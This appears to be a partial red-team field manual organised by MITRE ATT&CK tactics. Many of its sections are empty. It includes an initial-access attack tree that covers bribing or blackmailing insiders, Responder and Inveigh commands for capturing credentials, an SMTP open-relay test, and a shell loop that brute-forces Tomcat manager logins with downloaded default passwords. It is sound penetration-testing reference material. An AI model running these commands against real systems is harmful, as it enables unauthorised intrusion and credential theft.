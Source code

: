 

<!-- MarkdownTOC depth=3 autolink=true -->

- [Operational Considerations](#operational-considerations)
    - [Goals](#goals)
    - [Operation Planning](#operation-planning)
    - [Toolbox](#toolbox)
- [Tactical Objectives](#tactical-objectives)
    - [Ops-Sec Considerations](#ops-sec-considerations)
    - [Attack Infrastructure](#attack-infrastructure)
    - [Getting Access](#getting-access)
    - [Discovery](#discovery)
    - [Credential Access](#credential-access)
    - [Lateral Movement](#lateral-movement)
- [Techniques: Ops-Sec Considerations]
- [Techniques: Attack Infrastructure]
- [Techniques: Discovery](#techniques-discovery)
    - [Passive techniques](#passive-techniques)
- [Techniques: Credential Access](#techniques-credential-access)
- [Techniques: Lateral Movement](#techniques-lateral-movement)
    - [Vulnerable/misconfigured Remote Services](#vulnerablemisconfigured-remote-services)
    - [Vulnerable/misconfigured HTTP/HTTPS Remote Services](#vulnerablemisconfigured-httphttps-remote-services)

<!-- /MarkdownTOC -->

# Security Testing Field Manual

Introduction and purpose.

# Operational Considerations

## Goals

List of possible goals.

## Operation Planning

```
1. Set goal(s): objectives to accomplish
2. Combine various tactics to achieve your operational goal(s)
3. Select appropriate tachniques (and choose suitable tools) to achieve your tactical goals
```

## Toolbox

# Tactical Objectives

## Ops-Sec Considerations

MITRE PRE-ATT&CK: [TA0021](https://attack.mitre.org/tactics/TA0021/)

## Attack Infrastructure

MITRE PRE-ATT&CK: [TA0022](https://attack.mitre.org/tactics/TA0022/)

## Getting Access

*Tactical goal: get IP address in target's internal network*

MITRE ATT&CK: [TA0001](https://attack.mitre.org/tactics/TA0001/)

Possible techniques (in a form of attack tree):

```
1. [OR] Social Engineering
1.1. [OR] Delivery of phishing email/message
1.1.1. Malicious link (T1192)
1.1.2. Malicious attachment (T1193)
1.1.3. Malicious social media message (T1194)
1.2. Drive-by compromise (T1189)
1.3. [OR] "Tasking" insider to plant connect-back implant
1.3.1. by fooling him (e.g. run it for me; print doc from this USB)
1.3.2. by bribing him
1.3.3. by blackmailing him
1.4. Fooling insider to reveal his credentials (T1078)
...

2. [OR] Breaching the perimeter/DMZ
2.1. Exploit Public-Facing Application (T1190)
2.2. Exploit remote access mechanism (T1133)
...

3. [OR] Proximity attacks
3.1. Hacking into wireless network
3.2. Using USB drive drops (T1091)
3.3. [OR] Breaching physical perimeter
3.3.1. Plant drop-in device and plug it into network
3.3.2. Plant USB device and plug it to existing machine
...

4. [OR] Exploiting Trusted Relationship (T1199)
4.1. [OR] Hack 3rd party entity that delivers service to target (T1195)
4.1.1. Open source Software supplier 
4.1.2. Commercial Software supplier 
4.1.3. Hack company that provides services to the target
4.1.4. Hack target's contractor worker
4.2. [AND] Hack "to be acquired" company
4.2.1. Get knowledge about near aquisitions
4.2.1. Hack the company that is going to be acquired 
4.3. [AND] Build trust relationship with the target
4.3.1. Work as a contractor for the target
4.3.2. Exploit the trust that was built
...
```

## Discovery

*Tactical goal: Understand the target environment*

MITRE ATT&CK: [TA0007](https://attack.mitre.org/tactics/TA0007/)

Questions that should be asked:

```
What's the network topology? Is it flat?
Where are egress points?
Where are "multi-homed" boxes?
```

## Credential Access

*Tactical goal: Acquire valid set of credentials*

MITRE ATT&CK: [TA0006](https://attack.mitre.org/tactics/TA0006/)

## Lateral Movement

MITRE ATT&CK: [TA0008](https://attack.mitre.org/tactics/TA0008/)

# Techniques: Discovery

## Passive techniques

MITRE ATT&CK: [T1040](https://attack.mitre.org/techniques/T1040/)

Sniffing:

```
```

OS fingerprinting:

```
# Linux
screen -L -d -m responder -I eth0 -A -f

# Windows
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -Inspect Y
```

# Techniques: Credential Access

# Techniques: Lateral Movement

## Vulnerable/misconfigured Remote Services 

MITRE ATT&CK: T1021 / T1210

### SMTP service

Ports:

    TCP: 25,587,465

Implementations:

    https://en.wikipedia.org/wiki/List_of_mail_server_software#SMTP

Common misconfiguration: SMTP Open Relay

```
HELO ABC
MAIL FROM: foo@domain.com
RCPT TO: bar@domain.com
DATA
Testing for SMTP open relay issue.
.
QUIT
```

Noteworthy vulnerabilities:

```
```

## Vulnerable/misconfigured HTTP/HTTPS Services

MITRE ATT&CK: T1021 / T1210

### Apache Tomcat: default/weak credentials

```
Use auxiliary/scanner/http/tomcat_mgr_login
```

OR (if many different ports are used)
```
Prereq: Nmap scan results imported to msf

msf> services -S Coyote -c port -o /tmp/tomcat.csv
$ for i in $(cat /tmp/tomcat.csv | tr -d '"' | tr ',' ':'); do echo "http://$i/manager/html"; done > tomcat-urls.txt

$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown

$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults.txt

$ while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults.txt); do curl -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"; echo; done; done < tomcat-urls.txt > tomcats-results.txt
```
